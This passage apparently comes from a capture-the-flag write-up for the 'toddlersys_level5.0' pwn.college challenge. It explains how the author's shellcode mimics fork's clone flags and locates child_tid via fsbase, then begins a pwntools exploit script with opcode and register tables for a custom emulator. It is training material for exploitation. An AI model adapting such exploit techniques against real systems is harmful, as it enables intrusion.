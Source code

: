 This means the flags values is actually `0x1200011`, both `newsp, parent_tid` are set to `NULL`, and `tid = 0`. \
The only interesting caveat is figuring out how `child_tid`, the address within the TLS that contains the `tid` of a process, is located. But it is a known, constant offset within `fsbase`. Hence, all I did in my shellcode is to mimic `fork`'s behavior. Indeed, now a new process is correctly spawned. 

```python
#!/bin/python

from glob import glob
from dataclasses import dataclass
from subprocess import check_output
from tempfile import TemporaryFile
from pwn import *
import os, sys
import struct
import time
import shutil
import binascii
import signal
import array
import textwrap
import string
import logging
BINARY = '/challenge/toddlersys_level5.0'
GDB_SCRIPT= '''
set follow-fork-mode child
set print elements 0
handle SIG33 nostop noprint

c
'''

context.arch = 'amd64'
context.terminal = '/usr/bin/tmux'
binary = ELF(BINARY)
MAX_YANCODE_SIZE = 0x1000


@dataclass
class Regs:
    a = b'\x20'
    b = b'\x08'
    c = b'\x02'
    d = b''
    s = b''
    i = b''
    f = b''

@dataclass
class Opcodes:
    STM = b'\x01'
    IMM = b'\x40'
    ADD = b''
    CMP = b'\x08'
    JMP = b''
    LDM = b''
    STK = b''
    SYSCALL = b'\x10'

@dataclass
class Syscalls:
    OPEN = b'\x10'
```